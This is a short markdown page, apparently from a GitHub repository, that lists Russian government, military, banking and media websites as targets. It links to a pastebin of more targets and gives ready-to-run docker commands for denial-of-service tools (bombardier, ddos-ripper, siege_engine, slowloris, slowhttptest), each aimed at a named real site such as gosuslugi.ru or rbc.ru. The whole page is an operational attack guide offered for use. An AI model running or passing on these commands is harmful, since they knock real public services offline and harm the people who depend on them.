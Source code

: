 # List of (some) public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/  
https://api.developer.sber.ru/product/SberbankID

# Propaganda

tvzvezda.ru
echo.msk.ru
rg.ru
kp.ru

# Full list of targets

https://pastebin.com/JEuV9ftT

# Some examples to start with

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome python siege engine

```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tvzvezda.ru
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u DOMAIN] [-s numberOfSockets]
```

# Another awesome similar to slowloris tool 

```
docker run --rm -it shekyan/slowhttptest:latest -c 1000 -X -g -o slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://rbc.ru -p 3 
```
